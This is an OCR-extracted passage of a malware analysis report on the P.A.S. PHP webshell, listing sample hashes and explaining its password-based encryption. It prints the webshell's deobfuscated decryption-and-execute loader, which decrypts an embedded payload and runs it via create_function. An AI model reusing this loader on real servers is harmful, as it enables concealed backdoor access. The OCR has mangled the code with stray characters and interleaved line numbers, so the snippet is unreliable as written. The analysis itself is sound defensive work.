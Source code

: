 The following section exposes the results of an analysis based on the P.A.S. sample identified by the following hashes:

#### P.A.S. sample hashes

| Algorithm | Value |
| --- | --- |
| MD5 | 84837778682450cdca43d1397afd2310 |
| SHA-1 | c69db1b120d21bd603f13006d87e817fed016667 |
| SHA-256 | 893750547255b848a273bd1668e128a5e169011e79a7f5c7bb86cc5d7b2153bc |

#### 2.1.3.1 Webshell encryption

One of the distinctive characteristics of the malware is the use of a specific encryption layer to both conceal its internals from scrutiny and enforce an access control when deployed on a compromised host. This mechanism, previously documented by Trustwave [5], will be quickly reviewed thereafter.

The webshell PHP file is composed of two main parts:

- · the encrypted and base64 encoded core functionalities to be executed once activated and compressed;
- a form backed by the decryption mechanism to process the password supplied by the operator. The code snippet below shows a formatted and deobfuscated version of this part of the webshell.

```
$password = isset($_POST['password']) ? $_POST['password'] : (isset($_COOKIE['password']) ?
 1
        $ COOKIE['password']: NULL);
     t
2
    if($password!==NULL)
 3
4
    ન
        $password = md5($password).substr(MD5(strrev($password)),0,strlen($password));
 5
        for($counter = 0; $counter < 15571; $counter++)
 6
7
        イ
            $webshell_data[$counter] = chr(( ord($webshell_data[$counter]) -
 8
            -> ord($password[$counter]))%256);
 9
            $password .= $webshell data[$counter];
        }
10
11
        if($webshell data = @gzinflate($webshell data))
12
        イ
13
            if(isset($_POST['password']))
14
                @setcookie('password', $_POST['password']);
 15
            $counter=create function('',$webshell data);
16
            unset($password,$webshell_data);
17
            $counter();
 18
        }
19
```